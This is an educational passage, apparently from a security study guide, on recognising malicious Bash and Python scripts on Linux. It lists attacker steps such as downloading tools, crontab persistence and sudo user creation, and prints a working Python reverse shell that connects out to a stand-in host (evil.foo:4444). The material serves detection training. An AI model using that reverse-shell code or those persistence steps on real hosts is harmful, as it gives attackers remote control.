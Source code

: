# BASH AND PYTHON MALICIOUS INDICATORS

#### BASH AND PYTHON MALICIOUS INDICATORS

Most of the web runs on Linux, and Linux has proven remarkably resilient to attacks (meaning that it is able to withstand or recover quickly from difficult situations), given the high-value of the assets that depend on it. Most exploits of Linux systems depend on weak configuration, and/or vulnerabilities in web applications. In Linux, the command line is usually **Bourne Again Shell (Bash)**. Many Linux systems have Python enabled as well. Python scripts or batch files of bash commands can be used for automation tasks, such as backup, or for malicious purposes.

A malicious script running on a Linux host might attempt the following:

  
2.  Use commands such as `whoami` and `ifconfig/ip/route` to establish the local context.
  
4.  Download tools, possibly using `wget` or `curl`.
  
6.  Add `crontab` entries to enable persistence.
  
8.  Add a user to `sudo` and enable remote access via SSH.
  
10.  Change firewall rules using `iptables`.
  
12.  Use tools such as Nmap to scan for other hosts.
  

A very common vector for attacking Linux hosts is to use an exploit to install a web shell as a backdoor (acunetix.com/blog/articles/introduction-web-shells-part-1). Typical code to implement a **reverse shell** (connecting out to the machine at evil.foo on port 4444) is as follows:

```Python
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.connect(("evil.foo",4444))

os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)

os.dup2(s.fileno(),2)

pty.spawn("/bin/sh")'
``` 

The `os.dup2` statements redirect the terminal's data streams stdin (0), stdout (1), and stderr (2) to the socket object (s). The `pty` module provides a library of functions for managing a pseudo-terminal, in this case starting the shell process at `/bin/sh`.

The code to implement a shell can be obfuscated in numerous ways. One way to identify malicious scripts trying to match code samples is to scan the file system against a configuration baseline, either using file integrity monitoring or use of the Linux diff command.

A common exploit for a vulnerable web server is to upload a cryptominer, misusing the server's CPU resources to try to obtain new cryptocurrency. You can use Linux utilities such as top and free to diagnose excessive CPU and memory resource consumption by such malware.

> _This F5 white paper describes the use of Bash and Python attack tools (f5.com/labs/articles/threat-intelligence/attackers-use-new--sophisticated-ways-to-install-cryptominers)._